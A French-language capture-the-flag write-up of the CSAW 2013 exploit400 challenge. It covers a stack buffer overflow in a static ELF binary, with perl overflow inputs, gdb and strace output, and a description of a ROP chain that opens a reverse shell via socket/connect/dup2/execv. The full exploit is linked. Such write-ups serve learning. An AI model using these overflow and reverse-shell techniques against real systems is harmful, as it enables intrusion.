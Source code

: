 ```yaml
---
title: CSAW-CTF-2013 - Exploit 400
date: 2013-09-23
tags: ctf
author: Tosh
layout: post
---
```


Voici un petit write-up pour le challenge exploit400 du CSAW-CTF 2013.

Vous pouvez trouver le binaire ici : [exploit400](https://repo.t0x0sh.org/CTF/CSAW_2013/exploit400)

```
	$ file ./miteegashun
	./miteegashun: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV),
    statically linked, for GNU/Linux 2.6.24,
    BuildID[sha1]=41bbe92f629cbca9784458456d94282b2d2fd9e0, stripped
```

On a donc un ELF 32 bits statique et strippé.

L'avantage du binaire statique, c'est qu'on va avoir tout un tas de gadgets pour faire du ROP.

On remarque assez vite qu'en envoyant une longue chaine de caractère, on controle facilement EIP :

```
	$ perl -e 'print "A"x500;' | strace -i ./miteegashun
	[b7760424] execve("./miteegashun", ["./miteegashun"], [/* 32 vars */]) = 0
	[b77c1424] uname({sys="Linux", node="rand00m", ...}) = 0
	[b77c1424] brk(0)                       = 0x8ae6000
	[b77c1424] brk(0x8ae6d40)               = 0x8ae6d40

    ...

	[b77c1424] brk(0x8b07d40)               = 0x8b07d40
	[b77c1424] brk(0x8b08000)               = 0x8b08000
	[b77c1424] write(1, "Welcome to this demo of my explo"..., 93
    Welcome to this demo of my exploit mitigation
	This mitigation is unbeatable, prove me wrong
	) = 93
	[b77c1424] fstat64(0, {st_mode=S_IFIFO|0600, st_size=0, ...}) = 0

    ...

	[b77c1424] read(0, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 4096) = 500
	[b77c1424] read(0, "", 4096)            = 0
	[41414141] --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x41414141} ---
	[????????] +++ killed by SIGSEGV (core dumped) +++
	Erreur de segmentation (core dumped)
```

Pour faciliter le débuguage avec GDB, j'ai utilisé un fifo :

```
	$ rm fifo; mkfifo fifo && perl -e 'print "A"x417 . "CCCC"' > fifo

	gdb$ r < fifo
	Starting program: /home/tosh/Downloads/./miteegashun < fifo
	Welcome to this demo of my exploit mitigation
	This mitigation is unbeatable, prove me wrong

	Program received signal SIGSEGV, Segmentation fault.
	--------------------------------------------------------------------------[regs]
	  EAX: 0x43434343  EBX: 0x00000000  ECX: 0x00000003  EDX: 0x080F04E1  o d I t s z a P c
	  ESI: 0x00000000  EDI: 0x08049770  EBP: 0x41414141  ESP: 0x080F0448  EIP: 0x43434343
	  CS: 0073  DS: 007B  ES: 007B  FS: 0000  GS: 0033  SS: 007BError while running hook_stop:
	Cannot access memory at address 0x43434343
	0x43434343 in ?? ()
	gdb$ x/20xw $esp
	0x80f0448:      0x41414141      0x41414141      0x41414141      0x41414141
	0x80f0458:      0x41414141      0x41414141      0x41414141      0x41414141
	0x80f0468:      0x41414141      0x41414141      0x41414141      0x41414141
	0x80f0478:      0x41414141      0x41414141      0x41414141      0x41414141
	0x80f0488:      0x41414141      0x41414141      0x41414141      0x41414141
```

On remarque quelque chose d'étrange : déjà, l'adresse de la stack est en 0x080fXXXX. On imagine donc que le binaire a sa propre stack située dans le segment DATA.

Ensuite, après avoir écrasé EIP, on retournera dans notre buffer lorsqu'on essayera de faire du ROP.

Essayons quelque chose :

```
	$ rm fifo; mkfifo fifo && perl -e 'print "A"x264 . "CCCC" . "B"x(413-264) . "DDDD"' > fifo

	gdb$ r < fifo
	Starting program: /home/tosh/Downloads/./miteegashun < fifo
	Welcome to this demo of my exploit mitigation
	This mitigation is unbeatable, prove me wrong

	Program received signal SIGSEGV, Segmentation fault.
	--------------------------------------------------------------------------[regs]
	  EAX: 0x44444444  EBX: 0x00000000  ECX: 0x00000003  EDX: 0x080F04E1  o d I t s z a P c
	  ESI: 0x00000000  EDI: 0x08049770  EBP: 0x41414141  ESP: 0x080F0448  EIP: 0x44444444
	  CS: 0073  DS: 007B  ES: 007B  FS: 0000  GS: 0033  SS: 007BError while running hook_stop:
	Cannot access memory at address 0x44444444
	0x44444444 in ?? ()
	gdb$ x/20x $esp
	0x80f0448:      0x43434343      0x42424242      0x42424242      0x42424242
	0x80f0458:      0x42424242      0x42424242      0x42424242      0x42424242
	0x80f0468:      0x42424242      0x42424242      0x42424242      0x42424242
	0x80f0478:      0x42424242      0x42424242      0x42424242      0x42424242
	0x80f0488:      0x42424242      0x42424242      0x42424242      0x42424242
```

Cette fois, on controle toute la chaine d'exécution !

Notre payload ressemblera à ça après calcul des différents offsets :

![Payload](/images/exploit400.png)

Il y a une petite difficultée supplémentaire : le file descriptor doit être fermée pour que le payload soit exécuté. On ne peut donc pas réutiliser la socket !
Vu que nous disposons d'une grosse quantité de gadgets, je me suis amusé à faire une ROP chain basé sur l'instruction int 0x80.
Elle exécute à la suite : socket()/connect()/dup2()/execv

Voilà l'exploit : [exploit400.pl](https://github.com/t00sh/ctf/blob/master/csaw_ctf_2013/exploit400.pl)


Par contre, le fichier contenant la clef s'affichait seulement avec ls -l (why ?!).
Un challenge plutôt sympa.
